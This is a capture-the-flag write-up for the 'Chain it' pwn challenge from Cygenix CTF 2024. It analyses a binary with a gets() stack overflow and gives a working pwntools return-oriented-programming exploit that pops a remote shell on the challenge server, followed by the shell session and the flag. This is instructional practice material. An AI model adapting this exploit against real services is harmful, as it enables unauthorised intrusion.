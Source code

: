 # Cygenix CTF 2024

## Chain it

> *"Where there is code, there is a way in."*
>
>  Author: N/A
>
> [`main`](main)

Tags: _pwn_

## Solution

To analyze the binary of this challenge we put it through `Ghidra`. We can see a very similar setup as for [`classic`](../classic/README.md), but calling `id` will not give us any good result.

```c
void id(void)
{
  system("id");
  return;
}

undefined8 main(void)
{
  char local_28 [32];
  
  puts("----------------------------------------------");
  puts("7h353 71m3 17 15 4 b17 7r1cky...!");
  puts("----------------------------------------------");
  fflush(stdout);
  gets(local_28);
  return 0;
}
```

But one thing we can use from the function is the call to `system`. We only need to prepare the parameter to point to an `/bin/sh` and thankfully we find such a string in the binary as well. So our payload needs to prepare `rdi` with the correct address and then jump to `id+14` (0040116d) to call system.

```c
0040115f  int64_t id()

0040115f  55                 push    rbp {__saved_rbp}
00401160  4889e5             mov     rbp, rsp {__saved_rbp}
00401163  488d059e0e0000     lea     rax, [rel data_402008]
0040116a  4889c7             mov     rdi, rax  {data_402008}
0040116d  e8cefeffff         call    system
00401172  90                 nop     
00401173  5d                 pop     rbp {__saved_rbp}
00401174  c3                 retn     {__return_addr}
```

The following code does exactly this and gives us a shell on the remote container.

```py
from pwn import *

context.binary = binary = ELF("./main")

p = remote("chall.ycfteam.in", 4444)

pop_rdi = 0x40115a
bin_sh  = next(binary.search(b"/bin/sh"))

payload = flat({
    0x28: [
        pop_rdi,
        bin_sh,
        binary.sym.id + 14
    ]
})

p.sendline(payload)
p.interactive()
```

```bash
----------------------------------------------
7h353 71m3 17 15 4 b17 7r1cky...!
----------------------------------------------
$ pwd
/usr/src/app
$ ls
f.txt
flag.txt
main
$ cat flag.txt
CyGenixCTF{d4mm_0nc3_4641n_y0u_c4ll3d_m3_cl4551c_r0p}
```

Flag `CyGenixCTF{d4mm_0nc3_4641n_y0u_c4ll3d_m3_cl4551c_r0p}`
